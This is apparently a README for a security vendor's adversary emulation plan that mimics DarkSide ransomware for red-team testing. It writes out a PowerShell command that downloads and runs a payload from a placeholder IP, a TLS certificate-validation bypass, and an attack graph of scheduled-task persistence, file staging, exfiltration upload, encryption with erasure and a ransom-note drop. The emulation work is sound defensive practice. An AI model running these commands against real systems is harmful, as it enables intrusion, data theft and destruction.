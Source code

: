 # DarkSide Ransomware Adversary Emulation Plan

This threat was posted after the Colonial Pipeline ransomware attack on May 7, 2021. It is explained further in SCYTHE's Threat Thursday blog: https://www.scythe.io/library/threatthursday-darkside-ransomware

This threat is based on Cybereason's Cyber Threat Intelligence from April 2021: https://www.cybereason.com/blog/cybereason-vs-darkside-ransomware

To emulate:
1. Download and import the threat in JSON format to your SCYTHE instance - https://raw.githubusercontent.com/scythe-io/community-threats/master/DarkSide/DarkSide_scythe_threat.json
2. Download the Virtual File System (VFS) files under DarkSide/VFS
3. Upload the VFS files to your SCYTHE VFS in the following location: VFS:/shared/threats/DarkSide
4. Ensure HTTP Relay is running on your SCYTHE server.
5. Create a new campaign, selecting HTTP, and ensuring the communication options match your HTTP Relay. Consider using a "naked IP address" instead of a domain to more closely emulate this attack.
6. Import from Existing Threat: DarkSide
7. Launch Campaign
8. Click More Actions and copy the URL for the desired EXE. 
9. In the target system, run this PowerShell command with the respective URL to download the payload as documented in the CTI: powershell -Command "(New-Object Net.WebClient).DownloadFile('http://0.0.0.0/ServiceLogin123','C:\Users\Public\update.exe')"
10. Execute update.exe

Note that SCYTHE forces HTTPS for operational security. Using an IP will result in a HTTPS certificate validation issue. To get around that:
- Open a PowerShell command prompt
- [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
- (New-Object Net.WebClient).DownloadFile('http://0.0.0.0/ServiceLogin123','C:\Users\Public\update.exe')
- C:\Users\Public\update.exe


 #Attack Graph
```mermaid
graph TD
Step0["<b> module: https </b> <br>"]
Step1["<b> module: loader </b> <br><h4> parameters: </h4> <i> --load run </i> <br>"]
Step2["<b> module: run </b> <br><h4> parameters: </h4> <i> reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Nls\Language </i> <br><a href='https://attack.mitre.org/techniques/T1012'>att&ck-technique:T1012</a><br>
"]
Step3[""]
Step4["<b> module: loader </b> <br><h4> parameters: </h4> <i> --load sysinfo </i> <br>"]
Step5["<b> module: sysinfo </b> <br><h4> parameters: </h4> <i>  </i> <br><a href='https://attack.mitre.org/tactics/TA0007'>att&ck-tactic:TA0007</a><br>
<a href='https://attack.mitre.org/techniques/T1082'>att&ck-technique:T1082</a><br>
"]
Step6["<b> module: loader </b> <br><h4> parameters: </h4> <i> --load processes </i> <br>"]
Step7["<b> module: processes </b> <br><h4> parameters: </h4> <i>  </i> <br><a href='https://attack.mitre.org/tactics/TA0007'>att&ck-tactic:TA0007</a><br>
<a href='https://attack.mitre.org/techniques/T1057'>att&ck-technique:T1057</a><br>
"]
Step8["<b> module: run </b> <br><h4> parameters: </h4> <i> whoami </i> <br><a href='https://attack.mitre.org/tactics/TA0007'>att&ck-tactic:TA0007</a><br>
<a href='https://attack.mitre.org/techniques/T1033'>att&ck-technique:T1033</a><br>
"]
Step9["<b> module: run </b> <br><h4> parameters: </h4> <i> cmd /c SCHTASKS /CREATE /SC DAILY /TN MyTasks\Task1 /TR C:\update.exe /ST 11:00 /F </i> <br><a href='https://attack.mitre.org/techniques/T1053'>att&ck-technique:T1053</a><br>
"]
Step10["<b> module: run </b> <br><h4> parameters: </h4> <i> cmd /c SCHTASKS /QUERY /TN MyTasks\Task1 </i> <br><a href='https://attack.mitre.org/techniques/T1053.005'>att&ck-technique:T1053.005</a><br>
"]
Step11["<b> module: loader </b> <br><h4> parameters: </h4> <i> --load crypt </i> <br>"]
Step12["<b> module: loader </b> <br><h4> parameters: </h4> <i> --load downloader </i> <br>"]
Step13["<b> module: loader </b> <br><h4> parameters: </h4> <i> --load file </i> <br>"]
Step14["<b> module: loader </b> <br><h4> parameters: </h4> <i> --load uploader </i> <br>"]
Step15["<b> module: run </b> <br><h4> parameters: </h4> <i> powershell mkdir %USERPROFILE%\Desktop\DarkSide </i> <br><a href='https://attack.mitre.org/techniques/T1074'>att&ck-technique:T1074</a><br>
"]
Step16["<b> module: file </b> <br><h4> parameters: </h4> <i> --create --path %USERPROFILE%\Desktop\DarkSide\target_file.xls --size 5MB --count 10 --random </i> <br>"]
Step17["<b> module: run </b> <br><h4> parameters: </h4> <i> powershell Compress-Archive -Path $env:userprofile\Desktop\DarkSide -CompressionLevel Optimal -Destination $env:userprofile\Desktop\exfil.zip </i> <br><a href='https://attack.mitre.org/techniques/T1074.001'>att&ck-technique:T1074.001</a><br>
"]
Step18["<b> module: uploader </b> <br><h4> parameters: </h4> <i> --remotepath %USERPROFILE%\Desktop\exfil.zip </i> <br><a href='https://attack.mitre.org/techniques/T1041'>att&ck-technique:T1041</a><br>
"]
Step19["<b> module: crypt </b> <br><h4> parameters: </h4> <i> --target %USERPROFILE%\Desktop\DarkSide\ --encrypt --password h3ll0w0rld --erase </i> <br><a href='https://attack.mitre.org/techniques/T1486'>att&ck-technique:T1486</a><br>
"]
Step20["<b> module: downloader </b> <br><h4> parameters: </h4> <i> --src VFS:/shared/threats/DarkSide/README.txt --dest %USERPROFILE%\Desktop\README.txt </i> <br><a href='https://attack.mitre.org/techniques/T1491.001'>att&ck-technique:T1491.001</a><br>
"]
Step21["<b> module: controller </b> <br><h4> parameters: </h4> <i> --integrity </i> <br>"]
Step22[""]
Step23["<b> module: run </b> <br><h4> parameters: </h4> <i> powershell Get-WmiObject Win32_Shadowcopy </i> <br><a href='https://attack.mitre.org/techniques/T1490'>att&ck-technique:T1490</a><br>
"]
Step24[""]
Step25["<b> module: run </b> <br><h4> parameters: </h4> <i> cmd /c SCHTASKS /DELETE /TN MyTasks\Task1 /F </i> <br><a href='https://attack.mitre.org/techniques/T1053.005'>att&ck-technique:T1053.005</a><br>
"]
Step26["<b> module: run </b> <br><h4> parameters: </h4> <i> cmd /c rmdir /Q /S %USERPROFILE%\Desktop\DarkSide </i> <br>"]
Step0 --> Step1
Step1 --> Step2
Step2 --> Step3
Step3 --> Step4
Step4 --> Step5
Step5 --> Step6
Step6 --> Step7
Step7 --> Step8
Step8 --> Step9
Step9 --> Step10
Step10 --> Step11
Step11 --> Step12
Step12 --> Step13
Step13 --> Step14
Step14 --> Step15
Step15 --> Step16
Step16 --> Step17
Step17 --> Step18
Step18 --> Step19
Step19 --> Step20
Step20 --> Step21
Step21 --> Step22
Step22 --> Step23
Step23 --> Step24
Step24 --> Step25
Step25 --> Step26
Step26 --> Step27
```
